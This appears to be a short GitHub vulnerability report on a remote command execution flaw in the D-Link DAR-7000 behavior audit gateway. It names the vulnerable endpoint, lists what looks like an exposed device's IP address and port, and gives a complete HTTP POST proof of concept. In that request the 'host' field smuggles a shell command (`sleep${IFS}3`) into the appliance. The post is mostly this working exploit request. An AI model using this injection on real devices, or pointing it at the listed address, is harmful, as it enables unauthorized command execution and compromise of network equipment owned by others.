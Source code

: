 The D-LINK DAR-7000 series online behavior audit gateway has a RCE vulnerability. Attackers can exploit vulnerabilities to gain server privileges or cause business impact on the system.

official： http://www.dlink.com.cn/

version:DAR-7000

Vulnerability Path ：/view/DBManage/Backup_Server_commit.php
221.193.248.37:9091

poc:
```
POST /view/DBManage/Backup_Server_commit.php?action=test HTTP/1.1
Host: 127.0.0.1
Cookie: 
Content-Length: 50
Cache-Control: max-age=0
Sec-Ch-Ua: "Chromium";v="128", "Not;A=Brand";v="24", "Google Chrome";v="128"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "macOS"
Dnt: 1
Upgrade-Insecure-Requests: 1
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/128.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9
Priority: u=0, i
Connection: close

host=`sleep${IFS}3`&mode=0&port=80&user=&password=
```
<img width="1019" alt="图片" src="https://github.com/user-attachments/assets/ec3ecb0e-d3a0-4814-a270-9d9eb196dc61">

